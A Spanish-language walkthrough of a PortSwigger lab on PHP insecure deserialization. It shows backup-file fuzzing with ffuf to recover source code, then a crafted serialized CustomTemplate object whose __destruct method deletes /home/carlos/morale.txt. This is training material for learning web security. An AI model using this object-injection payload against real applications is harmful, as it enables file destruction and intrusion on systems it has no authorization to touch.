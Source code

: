 ```yaml
---
title: "Arbitrary object injection in PHP"
description: "Laboratorio de Portswigger sobre Insecure Deserialization"
date: 2024-12-31 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Arbitrary object injection in PHP
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en `serialización` y es vulnerable a la `inyección arbitraria de objetos`. Para `resolver` el laboratorio, debemos `crear e inyectar un objeto serializado malicioso` para `eliminar` el archivo `morale.txt` del directorio personal de `Carlos`. Necesitaremos `obtener acceso` al `código fuente` para `resolver` este `laboratorio`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-4/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-4/image_2.png)

Si hacemos `Ctrl + u` e `inspeccionamos` el `código fuente` de la web, vemos como en la `parte inferior` hay un `comentario` que hace alusión a la ruta `/libs/CustomTemplate.php`

![](/assets/img/Insecure-Deserialization-Lab-4/image_3.png)

`Fuzzeamos` en busca de `archivos` de `backup` y `encontramos` un `archivo` llamado `CustomTemplate.php~`

```
# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt -u https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
.php~                   [Status: 200, Size: 1130, Words: 277, Lines: 39, Duration: 55ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
:: Progress: [2450/2450] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

Si accedemos a `https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplate.php~` podemos ver el `código` del `archivo php`. Si nos fijamos bien en el código vemos los métodos `__destruct()` y `__construct()`, los cuales son `métodos mágicos`, en `PHP` es fácil reconocerlos porque llevan `__` siempre en su nombre. Los métodos mágicos en PHP son funciones especiales predefinidas que se `ejecutan automáticamente` en `respuesta` a ciertos `eventos` o `interacciones` con un `objeto`. En este caso el método que nos interesa es el método mágico `__destruct`, que `borra` el `archivo` que esté en la variable `lock_file_path`

![](/assets/img/Insecure-Deserialization-Lab-4/image_4.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`, al hacerlo vemos que el `parámetro session` contiene un `objeto`

![](/assets/img/Insecure-Deserialization-Lab-4/image_5.png)

`Obtenemos` la `longitud` de `/home/carlos/morale.txt`

```
# echo -n '/home/carlos/morale.txt' | wc -c 
```

`Obtenemos` la `longitud` de `lock_file_path`

```
# echo -n 'lock_file_path' | wc -c 
```

`Obtenemos` la `longitud` de `CustomTemplate`

```
# echo -n 'CustomTemplate' | wc -c
```

`Modificamos` el `objeto` cambiando la `clase` a `CustomTemplate` y `añadiéndole` el parámetro `lock_file_path`, de forma que si el archivo `/home/carlos/morale.txt` existe lo borre

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Nos dirigimos al `navegador` y pulsamos `Ctrl + Shift + i`, pegamos el nuevo valor para `session` y `refrescamos` la `web` pulsando `F5`. Si todo ha funcionado correctamente deberíamos haber `borrado` el `archivo` y `completado` el `laboratorio`

![](/assets/img/Insecure-Deserialization-Lab-4/image_6.png)
